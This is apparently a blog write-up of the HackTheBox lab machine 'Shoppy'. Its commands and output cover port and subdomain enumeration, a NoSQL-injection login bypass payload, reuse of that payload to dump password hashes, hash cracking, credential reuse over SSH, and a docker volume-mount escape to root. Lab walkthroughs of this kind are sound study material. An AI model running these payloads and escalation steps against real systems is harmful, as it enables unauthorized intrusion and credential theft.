 ```yaml
---
layout: post
title: HackTheBox - Shoppy
date: 2022-09-25 18:25 +0200
author: Arcee
tags: htb box easy windows
categories: [HackTheBox, Box]
---
```


![Shoppy](/assets/img/posts/htb-shoppy/Shoppy.png)

Easy Linux box with fuzzing/gobuster and hash cracking to privesc in a docker container escape. 

## Box Info:

Name: Shoppy

Release date: 17-09-2022

OS: Linux

Solve date: 25-9-2022

## Enumeration

Nmap results: 

```bash
$ nmap -sC -sV -p- 10.10.11.180    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-25 17:44 CEST
Nmap scan report for 10.10.11.180
Host is up (0.019s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp   open  http     nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
9093/tcp open  copycat?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Sun, 25 Sep 2022 15:44:28 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
|     go_gc_cycles_automatic_gc_cycles_total 11
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter
|     go_gc_cycles_forced_gc_cycles_total 0
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
|     TYPE go_gc_cycles_total_gc_cycles_total counter
|     go_gc_cycles_total_gc_cycles_total 11
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 6.409e-05
|     go_gc_duration_seconds{quantile="0.25"} 8.9257e-05

Nmap done: 1 IP address (1 host up) scanned in 107.15 seconds
```

We see a shoppy.htb, which we add to etc hosts (10.10.11.180 shoppy.htb). If we visit this webpage we see a countdown for a beta:

![Shoppy](/assets/img/posts/htb-shoppy/shoppypage.png)

We now have a domain, so we check for any subdomains using gobuster

```bash
$ gobuster vhost -w bitquark-subdomains-top100000.txt -t 50 -u shoppy.htb 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shoppy.htb
[+] Method:       GET
[+] Threads:      50
[+] Wordlist:     bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/09/25 17:57:05 Starting gobuster in VHOST enumeration mode
===============================================================
Found: mattermost.shoppy.htb (Status: 200) [Size: 3122]
                                                       
===============================================================
2022/09/25 17:57:57 Finished
===============================================================
```

We find a subdomain! Next, we try to enumerate directories and files

```bash
$ wfuzz -c -z file,raft-large-directories.txt --hc 404 "http://shoppy.htb/FUZZ/" 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://shoppy.htb/FUZZ/
Total requests: 62284

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                            
=====================================================================

000000003:   302        0 L      4 W        28 Ch       "admin"                                            
000000039:   200        25 L     62 W       1074 Ch     "login"                                            
000000109:   302        0 L      4 W        28 Ch       "Admin"                                            
000000160:   200        25 L     62 W       1074 Ch     "Login"                                            
000000681:   302        0 L      4 W        28 Ch       "ADMIN"
```

It seems that /admin gives a redirect to /login. 

![Shoppy](/assets/img/posts/htb-shoppy/login.png)

We get a login page, so we try to bypass. Which can be done with the following username: `admin'||''==='`

![Shoppy](/assets/img/posts/htb-shoppy/afterlogin.png)

We use the same payload in the search field to retrieve a list of users:

```json
[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}]
```

We use [crackstation.net](http://crackstation.net) to see if we can crack one of the hashes. The admin hash gives no result, but the josh hash does give a result: `remembermethisway`

![Shoppy](/assets/img/posts/htb-shoppy/mattermostlogin.png)

Which logs us in!

![Shoppy](/assets/img/posts/htb-shoppy/mattermost.png)

In the ‘Deploy Machine’ tab we can find credentials for the machine: 

![Shoppy](/assets/img/posts/htb-shoppy/credentials.png)

So we try these credentials for ssh.

```bash
┌──(arcee㉿soundwave)-[~/Documents/Support]
└─$ ssh jaeger@10.10.11.180 
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Sep 25 11:10:51 2022 from 10.10.14.9
jaeger@shoppy:~$ cat user.txt
d5****************************0c
```

When looking at the permissions we see that the jaeger user is allowed to run /home/deploy/password-manager:

```bash
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

When we look at the code of the password-manager:

```bash
$ cat /home/deploy/password-manager
...
Welcome to Josh password manager!Please enter your master password: SampleAccess granted! Here is creds !cat /home/deploy/creds.txtAccess denied! This incident will be reported
...
```

So we see the master password here: Sample. We execute the password manager and use the password. 

```bash
sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

We can now log in on ssh using deploy@10.10.11.180 and the given password. Which leads us to a docker container where we can use the standard docker container escape payload we can find in GTFOBins ([https://gtfobins.github.io/gtfobins/docker/](https://gtfobins.github.io/gtfobins/docker/)): 

```bash
$ ssh deploy@10.10.11.180
deploy@10.10.11.180's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Sep 25 11:17:33 2022 from 127.0.0.1
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# hostname -I
172.17.0.3 
# cat /root/root.txt
17****************************e7
```
